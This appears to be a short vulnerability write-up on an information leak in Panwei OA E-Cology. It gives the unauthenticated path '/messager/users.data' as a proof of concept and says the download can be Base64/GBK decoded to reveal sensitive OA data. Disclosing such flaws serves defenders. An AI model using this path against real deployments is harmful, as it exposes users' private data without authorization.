 # Panwei OA E-Cology users.data Sensitive information leakage

## Vulnerability Description

Panwei OA E-Cology users.data allows any user to download and obtain sensitive information in OA.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Panwei OA E-Cology</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-20220313184604856.png)

Verify POC

```php
/messager/users.data
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646043440450-c69abe9a-4e26-4d92-b059-4e1e74139dc8.png)



Base64 GBK decoding can obtain sensitive data in OA